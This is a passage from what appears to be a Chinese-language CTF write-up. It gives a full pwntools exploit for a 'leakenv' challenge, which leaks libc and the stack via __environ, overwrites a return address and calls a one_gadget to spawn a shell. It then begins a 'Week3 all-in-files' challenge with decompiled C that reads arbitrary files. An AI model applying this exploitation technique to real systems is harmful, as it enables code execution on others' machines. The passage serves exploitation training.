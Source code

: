 ```python
from pwn import *

context(arch="amd64", os="linux", log_level="debug")

libc = ELF("../dist/libc.so.6")
io = gdb.debug("./leakenv")

io.recvuntil(b"Here's your gift: ")
libc.address = eval(io.recvline()[:-1])-libc.sym.printf
environ = libc.sym.__environ
io.sendlineafter(b"Where do you want to read?", hex(environ))
io.recvuntil(b"Here you are: ")
stack = u64(io.recv(8))
ret = stack-0x100
io.sendlineafter(b"Where do you want to place it?", hex(ret))
io.sendafter(b"Now place it.", flat([
    libc.address+0x23b63, 0, 0, 0, 0,  // r12 must be NULL
    libc.address+0xe3afe,              // one_gadget
]))

io.interactive()

```

### [Week3] all-in-files

> 一切皆文件是一种哲学

首先打开 ida 分析题目给的二进制文件。

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  int v4; // [rsp+4h] [rbp-Ch] BYREF
  char v5[4]; // [rsp+8h] [rbp-8h] BYREF
  int fd; // [rsp+Ch] [rbp-4h]

  bufinit(argc, argv, envp);
  printf("Input filename to open: ");
  filename[(int)read(0, filename, 0x1FuLL)] = 0;
  printf("Input file id to read from: ");
  __isoc99_scanf("%d", v5);
  printf("Input file id to write to: ");
  __isoc99_scanf("%d", &v4);
  close(1);
  fd = open(filename, 0);
  if ( fd != -1 )
  {
    read(fd, &filebuf, 0x1FFuLL);
    write(v4, &filebuf, 0x1FFuLL);
    exit(0);
  }
  puts("Failed to open file!");
  return 0;
}
```
